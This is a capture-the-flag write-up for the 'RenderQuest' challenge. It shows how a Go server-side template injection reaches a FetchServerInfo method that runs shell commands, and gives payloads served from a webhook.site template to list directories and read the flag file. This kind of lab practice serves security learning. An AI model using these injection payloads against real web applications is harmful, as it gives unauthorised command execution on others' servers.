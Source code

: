 # RenderQuest (Webhooks | SSTI)

find main.go in challenge folder with files provided for the challenge

main.go

```jsx
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
```

function for executing a command:

```jsx
exec.Command("sh", "-c", command)
```

[https://webhook.site](https://webhook.site/#!/010b4caf-8d2b-4a73-b677-d5424f27af77/43e500a2-38e9-44df-a8f7-a76a5e067ac8/1)

edit URL:

display payload response as plaintext

{{}} indicates code execution 

use information from main.go function for requesting server info

use “ls -la” to check if injection works

```jsx
{{.FetchServerInfo "ls -la"}}
```

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled.png)

copy URL on webhooks and paste into ‘Enter the link to your template’ section on webpage

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled%201.png)

press render now

displays the response

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled%202.png)

can now view the contents of the current directory

now try different payloads

```jsx
{{.FetchServerInfo "cd ..; ls -la"}}
```

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled%203.png)

goes back in directory to search

see flag.txt

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled%204.png)

now know name and directory location of flag

```jsx
flaga8eed19a16.txt
```

use cat to read contents of flag.txt

```python
{{.FetchServerInfo "cd ..;cat flaga8eed19a16.txt"}}
```

![Untitled](RenderQuest%20(Webhooks%20SSTI)%2001cf82eb4d0b4a2ead64b8dcc77e9bcc/Untitled%205.png)

save URL

resend the webhook URL on the webpage 

gives flag to submit